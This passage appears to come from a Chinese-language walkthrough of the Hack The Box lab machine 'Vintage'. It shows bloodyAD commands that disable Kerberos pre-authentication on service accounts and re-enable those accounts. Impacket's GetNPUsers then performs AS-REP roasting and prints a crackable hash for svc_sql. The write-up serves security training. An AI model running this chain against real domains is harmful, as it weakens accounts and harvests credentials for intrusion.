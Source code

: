接下来禁用预认证

```
└─# bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_ARK -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_ARK's userAccountControl
       
└─# bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_LDAP -f DONT_REQ_PREAUTH  
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_LDAP's userAccountControl

└─#  bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_SQL -f DONT_REQ_PREAUTH 
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_SQL's userAccountControl                                                                                                                           
```

启用账户

```
└─# bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_ARK -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from SVC_ARK's userAccountControl

└─#  bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_LDAP -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from SVC_LDAP's userAccountControl

└─# bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_SQL -f ACCOUNTDISABLE

[-] ['ACCOUNTDISABLE'] property flags removed from SVC_SQL's userAccountControl
```

再次检查域用户

```
└─# impacket-GetNPUsers -dc-ip 10.10.11.45 -request -usersfile usernames.txt vintage.htb/
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User DC01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User gMSA01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User FS01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User M.Rossi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User R.Verdi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User G.Viola doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User P.Rosa doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc_sql@VINTAGE.HTB:193416fc53443c06de46d37da3d42166$b35ce4ea605d525055533543a7e9dd10fffc3a65ffc2f33c6961f648c340910cd492095e921ae4acaa30dc45f394e315d8b55ed1a832138d4061fec01cda3a05efe7ff9add64991b10354de2b29e108c905f72a1332a0e3a1d56b3d2023535f6e7bc9ef8435bdbc7152d45ab59e5c69415cc2aea0ffd880746bacda9f29e4d0c394217941623fc8b208aea33d3c3af1c362643c0e502505559d9bd997603673d1e80554ad5483730c8cfd62d4dbcce434cefa88411e7b9902b54c9bc0ec9cf8c9f5da98851eaa44236812e34064a956e45c4a4a911efb16beb6c0bb040a29465468f4a33df5957dd0cb8
```